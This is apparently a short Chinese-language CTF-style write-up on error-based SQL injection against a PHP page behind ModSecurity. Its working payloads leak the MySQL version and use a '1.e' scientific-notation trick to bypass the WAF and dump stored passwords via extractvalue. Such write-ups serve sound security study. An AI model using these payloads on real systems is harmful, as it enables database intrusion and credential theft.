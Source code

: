 ![](<./img/Pasted image 20221204150847.png>)

---
首页长这样

![](<./img/Pasted image 20221204150928.png>)

有WAF

![](<./img/Pasted image 20221204151030.png>)
```php
/sql.php?id=1 and gtid_subset(version(),1);
```
通过报错注入能查询到version

![](<./img/Pasted image 20221204151225.png>)

利用`mysql 5.7`之前的科学计数的记号问题通过`1.e`实现`ModSecurity`的绕过
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(password))from(info)))))
```
![](<./img/Pasted image 20221204172550.png>)

再输出后半段
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(right(password,30)))from(info)))))
```

![](<./img/Pasted image 20221204172727.png>)

#Web #PHP #SQL注入 #modsecurity #报错注入 